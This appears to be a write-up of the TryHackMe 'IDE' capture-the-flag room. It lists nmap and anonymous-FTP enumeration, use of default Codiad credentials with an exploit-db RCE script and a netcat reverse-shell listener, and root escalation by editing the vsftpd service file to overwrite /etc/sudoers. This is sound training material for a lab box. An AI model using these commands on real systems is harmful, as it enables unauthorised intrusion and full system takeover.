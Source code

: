**Category:** Linux

**Difficulty:** Easy

**Status:** Completed

**Link:** https://tryhackme.com/room/ide

---

## 1. Challenge Description

An easy box to polish your enumeration skills!

## 2. Enumeration

### Basic scan

```bash
nmap -sS -p- -Pn <IP>
```



### Detail scan

```bash
nmap -T4 -A -p 21,22,80,62337 <IP>
```


## 3. **FTP Enumeration**

```bash
ftp <IP>
# name : anonymous
#password : empty
```



```bash
ls -la
cd ...
ls -la
get -
```

![image.png](attachment:0a525e6e-37ab-4dff-be9d-057a5b852f73:image.png)

```bash
cp - test
cat test
```



> It appears that `john` and `drac` are potential users in the target system.
> 

## 4.HTTP Port 62337

 



> the user is `john` and default password is `password`
> 



### Codiad 2.8.4

> Search on Codiad 2.8.4 exploit and download the py file
> 

[Codiad 2.8.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49705)

### Usage



```bash
nc -lvnp 4444 #root privilege
```

```bash
└─$ python3 exploit.py http://<IP>:62337/ john password <MY VM IP> 4444 linux
```

### User flag



```bash
cd home/drac
ls -lna
```

```bash
cat user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

```bash
cat .bash_history
```



```bash
ssh drac@IP 
#password is TH...
```



### Root flag



> We can executo /usr/sbin/service vsftpd restart as sudo so we can try to change the vsftpd.service to execute a reverse shell when we restart the service.
> 

```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

```bash
nano /lib/systemd/system/vsftpd.service
```

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```

```bash
 /usr/sbin/service vsftpd restart
```

```bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password:
==== AUTHENTICATION COMPLETE ===

drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```

```bash
drac@ide:~$ sudo su
root@ide:/home/drac# cd
root@ide:~# ls
root.txt
```
